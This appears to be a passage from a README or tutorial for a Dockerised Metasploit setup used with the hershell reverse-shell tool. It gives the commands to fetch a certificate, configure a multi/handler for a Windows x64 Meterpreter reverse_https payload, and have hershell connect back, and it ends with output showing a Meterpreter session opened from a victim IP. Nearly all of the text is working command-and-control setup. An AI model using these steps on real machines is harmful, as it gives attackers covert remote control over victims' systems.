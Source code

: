 ### Use

Once the container is up and running, you'll land in a bash shell.  
You'll find all the classic `msf` framework tools.

![msf](https://github.com/khast3x/khast3x.github.io/blob/master/assets/demo/hershell_msf_binaries.png?raw=true)
We'll launch the `msfconsole` and let it load. Once you're greeted with the prompt, we'll need to retrieve our `server.pem`.

We can use `wget` from inside the `msfconsole` and fetch them from our previously mentioned `serve` http page.

```bash
msfconsole
msf5 > wget http://DOCKER-IP:8000/server.pem

```

Next, we're preparing our handler. I'll be using the `reverse_https` method.

```bash
msf5 > use exploit/multi/handler
msf5 > set payload windows/x64/meterpreter/reverse_https
msf5 > set lhost DOCKER-IP
msf5 > set lport 8443
msf5 > set HandlerSSLCert ./server.pem
msf5 > exploit -j

```

In your hershell console, type:

```bash
[hershell]> meterpreter https YOUR-DOCKER-IP:8443
```

And hopefully, you'll be seeing this in your `msfconsole`

```bash
[*] Started HTTPS reverse handler on https://0.0.0.0:8443
cleear
[*] https://DOCKER-IP:8443 handling request from VICTIM-IP; (UUID: q4jynvuf) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (DOCKER-IP:8443 -> VICTIM-IP:40238) at 2018-10-04 02:09:35 +0000

```
